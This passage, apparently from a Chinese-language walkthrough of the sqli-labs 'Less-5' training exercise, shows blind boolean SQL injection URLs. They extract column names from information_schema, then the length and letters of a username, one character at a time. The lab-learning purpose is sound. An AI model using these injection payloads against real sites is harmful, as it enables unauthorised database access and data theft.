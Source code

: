 `http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27users%27%20limit%200,1),2,1)=%27d%27)--+`

![](assets/markdown-img-paste-20180418172256810.png)

这样就得到列的名字了

最后是得到数据

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20username%20from%20users%20limit%200,1))=4)--+`

![](assets/markdown-img-paste-20180418172617502.png)

第一个username的数据长度是4，接着判断字符串

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20username%20from%20users%20limit%200,1),1,1)=%27D%27)--+`

![](assets/markdown-img-paste-20180418172903266.png)

第一个字母是`D`，一步一步得到所有数据
